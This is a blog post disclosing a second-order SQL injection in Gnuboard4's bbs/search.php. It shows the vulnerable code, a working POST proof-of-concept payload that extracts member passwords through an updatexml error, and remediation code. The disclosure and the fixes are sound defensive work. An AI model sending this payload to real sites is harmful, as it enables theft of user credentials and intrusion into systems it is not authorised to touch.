 ```yaml
---
permalink: 2025/09/16/gnuboard4-sqli/
tags:
  - SQL注入
  - gnuboard4
layout: post
date: '2025-09-16 08:00:00'
categories:
  - web安全
  - 代码审计
  - 漏洞挖掘
home_cover: 'https://cdn.jsdelivr.net/gh/handbye/images@master/uPic/2025/09/JocM2R.png'
title: Gnuboard4 has Second-order SQL Injection via variable pollution of search_table  in bbs/search.php
---
```


## Second-Order SQL Injection in Gnuboard4: Variable Pollution Meets Identifier Injection


When we talk about SQL injection, most folks picture a simple quote escape gone wrong in a value. But some of the most dangerous exploits happen in less obvious places—like identifiers (table names) and across multiple steps of request handling. In this post, we’ll walk through a second-order SQL injection in Gnuboard4’s `bbs/search.php` that’s enabled by variable pollution and executed as an identifier injection in the `FROM` clause.


### TL;DR

- The array `search_table` can be polluted via request parameters.
- Later, the polluted value is used as a table name without whitelist validation or quoting.
- This enables SQL injection in the identifier position, which typical escaping can’t fix.
- Impact: error-based and blind data exfiltration, JOIN injection, query truncation.

### Affected Code


The vulnerable usage occurs when composing the `FROM` clause from `$search_table[$idx]`:


```text
        $tmp_write_table = $g4[write_prefix] . $search_table[$idx];

        $sql = " select * from $tmp_write_table where $sql_search order by wr_id desc limit $from_record, $rows ";
        $result = sql_query($sql);

```


A similar pattern exists in the counting query:


```text
        $tmp_write_table   = $g4[write_prefix] . $g4_search[tables][$i];

        $sql = " select wr_id from $tmp_write_table where $sql_search ";

```


In legacy PHP stacks, request parameters are often extracted into same-named variables. That means an attacker can directly post `search_table[1]=...` and `table_index=1`, overwriting the server-side array and steering the subsequent query.


### Why This Is Second-Order Injection

- First order: the attacker “poisons” server state by overriding `search_table[]` and `table_index` via POST.
- Second order: the poisoned value is later treated as a table identifier in `FROM`, where normal string escaping is ineffective. Because the position is an identifier (not a quoted value), this allows injection of JOINs, ORDER BY, and even comment-based truncation.

### Proof of Concept (POST)


Replace `<host>` with your target host. To improve stability, replace `z2_0` with a board suffix that exists in your environment (e.g., `free`, `notice`) so `g4_write_<suffix>` actually exists.


```text
POST /gnuboard4/bbs/search.php HTTP/1.1
Host: <host>
Content-Type: application/x-www-form-urlencoded

srows=2&gr_id=test&sfl=wr_content&stx=123&sop=or&table_index=1&&search_table[0]=test&search_table[1]=z2_0+order%20by%20updatexml(1,concat(0x7e,(select%20mb_password%20from%20g4_member%20where%20mb_no=1),0x7e),1)#

```


What happens:

- `$tmp_write_table` becomes `g4_write_z2_0 order by updatexml(...)#`
- `#` comments out the rest of the query (`WHERE ... ORDER BY wr_id ... LIMIT ...`)
- `updatexml()` raises a controlled error embedding the subquery result—classic error-based exfiltration.

Even if error messages are suppressed, the same primitive can be adapted to time-based (blind) injection.


### Impact

- Exfiltration of sensitive data (e.g., credentials from `g4_member`) via error-based or blind SQLi.
- Injection of arbitrary JOINs to expand the result set and bypass intended filters.
- Query logic truncation by injecting comment markers.

### Root Causes

- Variable pollution: server trusts same-named request parameters to populate application variables/arrays.
- Identifier injection: unvalidated, unquoted table identifiers are constructed from user-controlled values.
- Lack of defense-in-depth on key control variables (`search_table`, `table_index`, etc.).

### Minimal, Practical Remediation

- Rebuild sensitive arrays before use to defeat pollution:

```php
// Prevent variable pollution: rebuild server-side state
unset($search_table, $read_level, $table_index);
$search_table = array();
$read_level = array();
$table_index = 0;

```

- Whitelist and quote identifiers; only allow `[A-Za-z0-9_]` within a bounded length, and wrap with backticks:

```php
// Identifier hardening: whitelist and quote
$tbl = $g4_search[tables][$i];
if (!preg_match('/^\\w{1,30}$/', $tbl)) continue;
$tmp_write_table = "`{$g4['write_prefix']}{$tbl}`";

```

- Enforce integer types for indices/paging:

```php
$page = (int)$page ?: 1;
$rows = (int)$srows ?: 10;
$from_record = (int)$from_record;
$table_index = isset($table_index) ? (int)$table_index : 0;

```

- Avoid `extract($_REQUEST)`style patterns entirely. If refactoring is not feasible, explicitly `unset` sensitive names from `$_REQUEST` before any extraction.

### Verification Checklist

- Before fix: observe SQL errors containing `updatexml` and `FROM g4_write_... order by ... #`.
- After fix: same PoC should neither alter the `FROM` clause nor leak data; `search_table[]` and `table_index` from the request must not influence server-side arrays.

### Closing Thoughts


Second-order bugs thrive in systems that mix legacy request handling with dynamic SQL generation. Any time a user-controlled value can shape identifiers or query structure—not just values—you need whitelists and strict rebuilding of server state. This case in Gnuboard4 is a compact example of how variable pollution escalates into full SQL injection at the identifier level.


—


If you maintain a similar stack, audit for:

- Any place identifiers are built from variables.
- Any global extraction of request parameters.
- Any “reusable” arrays rebuilt across requests without sanitization.
